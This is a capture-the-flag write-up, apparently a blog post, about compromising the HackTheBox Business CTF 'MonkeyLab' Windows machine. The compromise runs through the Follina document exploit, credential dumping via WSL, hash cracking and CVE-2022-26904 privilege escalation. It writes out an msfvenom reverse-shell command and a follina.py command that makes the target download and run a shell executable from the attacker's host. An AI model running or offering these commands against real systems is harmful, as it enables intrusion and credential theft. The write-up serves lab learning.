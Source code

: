 ```yaml
---
layout: posts
title: "HTB Business - MonkeyLab"
tags: writeup, hackthebox, ctf
---
```


This is an "easy" machine from [HackTheBox Business CTF](https://www.hackthebox.com/events/htb-business-ctf-2022).

Enumeration:

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/1.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/2.png)
{: refdef}

<p style='text-align: justify;'>
So looking at the port 8080 we can see a page that is looking for documents to scan. This gave us a first impression that the windows machine could be vulnerable to a recent vulnerability named follina. We are going to use the following script to get a foothold: https://github.com/chvancooten/follina.py
<br>
Clone the repo, go inside it, create a reverse shell and place it under the www directory within the script folder:
<br>
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.83 lport=445 -f exe -o shell.exe
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/3.png)
{: refdef}

<p style='text-align: justify;'>
Ignore the other binaries, they are there because of enumeration inside the machine.
<br>
Set up a listener on port 445 and execute the following command on the script root folder:
<br>
python follina.py -t docx -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c mkdir C:\temp && curl http://10.10.14.83:8080/shell.exe -o C:\temp\shell.exe && C:\temp\shell.exe'" -u 10.10.14.83 -P 8080
<br>
This script will create a docx document that we are going to upload to the service listening on port 8080:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/4.png)
{: refdef}

<p style='text-align: justify;'>
After a minute or two we get a callback to our server running on port 8080 to retrieve the shell executable and a few seconds later we get the callback on our listener on port 445:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/5.png)
{: refdef}

<p style='text-align: justify;'>
So after enumerating for a while and running winPeas.exe i found two interesting things. First we got the credentials for the current user (they are at the AutoLogon registry):
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/6.png)
{: refdef}

<p style='text-align: justify;'>
Next, i discover that the current user has wsl.exe installed on their session. Veryfing his privileges, we can see that he can use every command as sudo:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/7.png)
{: refdef}

Knowing this, we can extract shadow and passwd files:

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/8.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/9.png)
{: refdef}

<p style='text-align: justify;'>
We crack the files using unshadow (to create the john hash) and john. We obtain the following credentials:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/10.png)
{: refdef}

<p style='text-align: justify;'>
You can verify that the credentials are valid (on the windows machine) using a lot of techiniques but since i wanted to see what the user could access, i used runasCS.exe to get a shell as the Infinity user:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/11.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/12.png)
{: refdef}

<p style='text-align: justify;'>
Since we have two valid users, we can use CVE-2022-26904 to escalate privileges. Metasploit has a module to explore this. You need credentials of one user (Infinity) and a meterpreter session from another user (Anomaly):
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/13.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/14.png)
{: refdef}

We are now ready to use the msfconsole module:

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/15.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/16.png)
{: refdef}

